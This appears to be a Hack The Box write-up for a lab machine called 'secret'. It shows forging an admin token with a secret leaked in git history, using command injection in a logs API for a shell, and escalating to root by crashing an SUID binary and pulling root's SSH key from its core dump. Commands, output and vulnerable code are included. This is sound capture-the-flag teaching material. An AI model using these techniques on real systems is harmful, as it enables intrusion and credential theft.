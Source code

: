 ## Path
### User
1. By analysizing the website source code downloaded from the website, we can access the APIs via `10.10.11.120/api`.
2. Found `TOKEN_SECRET` in the past commit of the source.
```
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```
3. Use `TOKEN_SECRET` to forge an admin token.
4. `/api/logs` endpoint has command injection, use this to get a reverse shell.
```
if (name == 'theadmin'){$
    const getLogs = `git log --oneline ${file}`;$
    exec(getLogs, (err , output) =>{$
```

### Root
1. `/opt/count` is executable by the user and the SUID is set.
2. Since SUID is set, `count` can read directories as root for us.
3. Since `count` is set to be dumpable by `prctl(PR_SET_DUMPABLE)`, we can dump it while it is waiting for the second input to read files.
4. According to the man page of `core`, "if the first character of `/proc/sys/kernel/core_pattern` is a pipe symbol (`|`), then the remainder of the line is interpreted as the command-line for a user-space program (or script) that is to be executed.", and "instead of being written to a file, the core dump is given as standard input to the program. So the core dump is fed to `apport`, we can find the dumped info at `/var/crash/_opt_count.1000.crash`.
"
```
dasith@secret:/tmp/.ice1187$ cat /proc/sys/kernel/core_pattern
|/usr/share/apport/apport %p %s %c %d %P %E
```
5. Send `SIGABRT` to `count` while reading `/root/.ssh/id_rsa`, then use `apport-unpack` to unpack the dump info, which give use the core dump ELF file. ([ref](https://askubuntu.com/questions/434431/how-can-i-read-a-crash-file-from-var-crash))
```
dasith@secret:/tmp/.ice1187$ apport-unpack _opt_count.1000.crash unpack
dasith@secret:/tmp/.ice1187/unpack$ ls
total 436
drwxr-xr-x 2 dasith dasith   4096 Feb 16 08:01 .
drwxr-xr-x 3 dasith dasith   4096 Feb 16 08:01 ..
-rw-r--r-- 1 dasith dasith      5 Feb 16 08:01 Architecture
-rw-r--r-- 1 dasith dasith 380928 Feb 16 08:01 CoreDump
-rw-r--r-- 1 dasith dasith     24 Feb 16 08:01 Date
...
dasith@secret:/tmp/.ice1187/unpack$ file CoreDump
CoreDump: ELF 64-bit LSB core file, x86-64, version 1 (SYSV), SVR4-style, from '/opt/count', real uid: 1000, effective uid: 0, real gid: 1000, effective gid: 1000, execfn: '/opt/count', platform: 'x86_64'
```
6. `strings` the core dump file, and the private key of root is revealed.
```
ice1187@ice1187-lab:~/repo/htb/secret$ strings crash/CoreDump
CORE
CORE
count
/opt/count
IGISCORE
CORE
ELIFCORE
/opt/count
```

